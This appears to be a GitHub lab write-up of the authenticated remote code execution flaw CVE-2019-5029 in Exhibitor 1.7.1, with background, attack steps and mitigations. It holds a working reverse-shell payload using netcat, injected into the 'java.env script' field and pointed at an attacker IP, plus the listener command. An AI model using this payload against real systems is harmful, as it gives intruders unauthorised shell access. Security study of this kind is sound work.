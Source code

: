 # Exhibitor v1.7.1 – Authenticated Remote Code Execution (Exploit-DB 48654)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All demonstrations were performed in a controlled lab environment.  
Unauthorized testing or exploitation of systems without explicit permission is illegal and unethical. The author is not responsible for any misuse of this information.

---

## 📌 What Is Exhibitor?

**Exhibitor** is a Java-based supervisor system used to manage Apache ZooKeeper nodes. It is commonly used for service discovery and configuration in distributed environments. Exhibitor provides a web-based interface to control and monitor ZooKeeper instances.

---

## 🚨 About the Vulnerability

A critical authenticated **Remote Code Execution (RCE)** vulnerability exists in **Exhibitor v1.7.1 and below**. This vulnerability is triggered when malicious OS commands are injected into the `java.env script` field of the web UI.

Once the configuration is saved, the command is executed under the context of the Java process running the application.

- **CVE ID**: CVE-2019-5029  
- **Affected Application**: Exhibitor <= 1.7.1  
- **Vulnerability Type**: Authenticated Remote Code Execution  
- **Exploit Type**: Command Injection via Web Interface  
- **Exploit Availability**: [Exploit-DB 48654](https://www.exploit-db.com/exploits/48654)

---

## ⚙️ Lab Setup

- **Target URL**: `http://exhibitor.vlab`  
- **Exhibitor Version**: 1.7.1  
- **Authentication**: Required  
- **Listener**: Netcat on port `3333`  
- **Payload Used**: 

```bash
$(/bin/nc -e /bin/sh <ATTACKER-IP> <PORT> &)
```

> 🔧 Replace `<ATTACKER-IP>` with your IP where Netcat is listening. Replace `<PORT>` with your port where Netcat is listening.

---

## 🚀 Attack Steps

1. **Log into the Exhibitor Web Interface**
   ![Login Page](./img/dashboard.png)

2. **Navigate to Config -> "java.env script" Field and Inject Reverse Shell Payload and Save Configuration**
   ![Payload Injection](./img/payload.png)

3. **Start Netcat Listener and Wait for Shell**
   ```bash
   nc -nvlp <PORT>
   ```
   ![Reverse Shell Received](./img/RCE.png)

---

## 🧠 Vulnerability Insights

The `java.env script` input field is intended to pass environment variables, but it does not properly sanitize special characters or command syntax. This allows a crafted payload like `$(...)` to be executed directly in the shell.

---

## 🔐 Mitigation

- Upgrade to the latest version of Exhibitor.
- Disable access to the configuration interface from public networks.
- Enforce strong authentication and access control policies.
- Monitor configuration changes and log shell execution anomalies.

---

## 📃 References

- [Exploit-DB Entry](https://www.exploit-db.com/exploits/48654)  
- [Pentest-Tools Analysis](https://pentest-tools.com/vulnerabilities-exploits/exhibitor-109-171-rce-vulnerability_5035)  
- [Original GitHub PoC](https://github.com/thehunt1s0n/Exihibitor-RCE)

---

## 📝 Medium Blog

Check out the full breakdown and narrative on my Medium blog:  
👉 **[Read the blog](https://medium.com/cyberquestor/exhibitor-v1-authenticated-remote-code-execution-rce-exploit-19f2d8603277?sk=d9d59621aaa987532a77c288a354e90f)**
